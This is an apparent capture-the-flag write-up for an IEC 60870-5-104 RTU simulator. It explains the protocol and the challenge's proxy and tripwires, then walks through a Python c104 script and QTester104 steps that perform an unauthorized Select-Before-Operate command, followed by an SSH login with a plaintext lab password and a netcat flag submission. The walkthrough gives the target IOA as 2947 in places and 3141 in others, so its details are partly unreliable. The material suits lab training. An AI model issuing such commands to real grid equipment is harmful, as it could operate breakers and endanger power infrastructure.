

# Red Team Writeup — Stage 4: IEC-104 RTU Simulator SBO Handling

## Protocol Overview
The **IEC 60870-5-104 (IEC 104)** protocol is a widely used telecontrol protocol in electrical substations and power grids. It encapsulates IEC 60870-5-101 transmission frames over TCP/IP (port 2404).

### Key Concepts
1. **APDU & APCI/ASDU:**
   - **APDU (Application Protocol Data Unit):** The complete network frame.
   - **APCI (Application Protocol Control Information):** The 6-byte header containing synchronization (`0x68`), length, and control fields (U-format, S-format, I-format).
   - **ASDU (Application Service Data Unit):** The data payload (Type ID, Variable Structure Qualifier, Cause of Transmission, Common Address, Information Object Address, and value elements).
2. **APDU Formats:**
   - **I-Format (Information):** Used for transferring telemetry, events, and commands.
   - **S-Format (Supervisory):** Used for acknowledging received I-frames.
   - **U-Format (Unnumbered Control):** Used for connection management:
     - **STARTDT (Start Data Transmission):** Required to initiate data exchange.
     - **STOPDT (Stop Data Transmission):** Suspends data exchange.
     - **TESTFR (Test Frame):** Validates link integrity.
3. **Select-Before-Operate (SBO):**
   - A safety mechanism preventing accidental operations (e.g. closing a circuit breaker).
   - Operation requires a two-step handshake:
     1. **Select:** The client sends a command ASDU with the **Select bit** set (`1`) in the Qualifier of Command (QOC). The server validates and confirms the selection.
     2. **Execute:** The client sends the same command ASDU with the **Select bit** cleared (`0`) within the selection timeout. The server confirms and executes the command.

---

## Challenge Architecture & Mechanics



### 1. The Filtering Proxy
The simulator runs the `c104.Server` internally on loopback port `24040`. A custom TCP proxy listens on the public interface (`0.0.0.0:2404`). 
- When an I-frame command arrives, the proxy decodes the APCI header and reads the 3-byte Information Object Address (IOA) from the ASDU.
- If the requested IOA is outside the range `TARGET_IOA..IOA_END`, the proxy silently closes the connection. No response of any kind is sent back, satisfying the requirement that out-of-range addresses simply don't exist.

### 2. State Machine & Tripwires
The server enforces strict state logic:
- **Session-start Check:** Before any I-frame commands are processed, a `STARTDT` activation must have occurred on that socket. If a command is sent out-of-session, the server logs a `commands sent without session-start` tripwire and drops the connection.
- **SBO Enforce:** The points inside the simulator are registered in `SELECT_AND_EXECUTE` command mode. Sending an Execute command directly without a preceding Select command returns a negative confirmation and triggers the `command executed without selection` tripwire.
- **Type Checking:** Points inside the range are defined as:
  - Odd IOAs: Single Command (`C_SC_NA_1`)
  - Even IOAs: Double Command (`C_DC_NA_1`)
  - Sending a mismatched command type to an IOA triggers the `malformed type-for-IOA` tripwire.

---

## Walkthrough: Solving the Challenge

### Step 1: Discovering the Active IOA
Since out-of-range requests result in immediate connection drops, scanning must be done sequentially:
1. Connect to `RTU_IP:2404`.
2. Activate session with `STARTDT`.
3. Try sending a Select command on the target IOA.
4. If the connection remains open and confirms, you have found the active range and correct type.

### Step 2: Automation with `c104` Client
The python `c104` library provides a high-level client that handles the SBO sequence internally when a point's `command_mode` is configured as `SELECT_AND_EXECUTE`.

```python
import c104

# 1. Initialize client
client = c104.Client()
conn = client.add_connection(ip="10.100.1.3", port=2404)
station = conn.add_station(common_address=1)

# 2. Add the target point with the correct command mode
point = station.add_point(io_address=2947, type=c104.Type.C_SC_NA_1, command_mode=c104.CommandMode.SELECT_AND_EXECUTE)

# 3. Start client event loop
client.start()

# 4. Wait for connection
import time
while not conn.is_connected:
    time.sleep(0.1)

# 5. Activate data transmission session (STARTDT)
conn.unmute()

# 6. Perform the SBO Command
point.value = True
success = point.transmit(cause=c104.Cot.ACTIVATION)

if success:
    print("[+] Select-before-operate sequence succeeded!")
else:
    print("[-] Command rejected.")

client.stop()
```

### Step 3: Flag Recovery
Upon a successful execution cycle, the simulator computes the SHA-256 HMAC of the string `STAGE4:IOA:<ioa>:TYPE:<type>:ACK` using the secret `INSTANCE_SEED` from the environment. The first 16 characters are formatted as `FLAG{S4-<hex>}` and saved to `/run/ctf/stage4_flag`.
The client can calculate this flag locally once a successful SBO transaction is confirmed.


Step 1 — Start QTester104

Parrot/Kali terminal:

cd ~/qtester104
./IEC104
Step 2 — Connect to the RTU

In QTester104, fill the connection fields:

Remote IP Address:       10.100.1.3
Port:                    2404
Remote Link Address CA:  1
Local Link Address OA:   0

Click:

Connect

You should see:

TCP CONNECTED
STARTDT ACT
STARTDT CON

Good connection signs:

INTERROGATION ACT CON
INTERROGATION ACT TERM
TESTFR ACT
TESTFR CON
Step 3 — Understand the target

The valid control point discovered in this challenge is:

IOA: 3141

Because 3141 is odd, use:

45: Single - C_SC_NA_1

Rule:

Odd IOA  → 45: Single - C_SC_NA_1
Even IOA → 46: Double - C_DC_NA_1
Step 4 — Fill the command fields

In QTester104, fill:

Command Address:         3141
Command Value:           1
ASDU Addr.:              1
Command Type:            45: Single - C_SC_NA_1
Command Duration / KPA:  0 = QU:no additional definition

Important:

Command Address = 2947
Command Type = 45: Single - C_SC_NA_1

Do not put the command type inside the command address field.

Step 5 — Send SELECT

For the first send:

SBO: Checked

Then click:

Send Command

Expected log:

SINGLE COMMAND ADDRESS 3141 ... SE 1
ACTIVATION CONFIRMATION POSITIVE

Meaning:

SE 1 = Select
Step 6 — Send EXECUTE

Now keep all fields the same:

Command Address:         3141
Command Value:           1
ASDU Addr.:              1
Command Type:            45: Single - C_SC_NA_1
Command Duration / KPA:  0 = QU:no additional definition

Change only:

SBO: Unchecked

Then click:

Send Command

Expected log:

SINGLE COMMAND ADDRESS 3141 ... SE 0
ACTIVATION CONFIRMATION POSITIVE
COMMAND ACCEPTED BY IEC104 SLAVE
ACTIVATION TERMINATION POSITIVE

Meaning:

SE 0 = Execute
Step 7 — Understand what happened

You successfully performed:

Unauthorized IEC-104 Select-Before-Operate command execution

The attack achieved:

Valid RTU control point found: IOA 3141
Command type accepted: C_SC_NA_1
Command value: 1
RTU response: Positive ACK / Command Accepted

Simple explanation:

We selected control point 3141, executed a Single Command ON operation, and the RTU accepted it.
Step 8 — Build the artifact

Because the command was accepted, the artifact is:

IOA:3141:TYPE:C_SC_NA_1:ACK
Step 9 — Submit the artifact

EWS terminal:

ssh field_tech@10.100.0.3

Password:

FieldTech2024!

Then run:

nc 127.0.0.1 9004

Paste:

IOA:3141:TYPE:C_SC_NA_1:ACK

Expected output:

ACCESS GRANTED. Flag: FLAG{S4-...}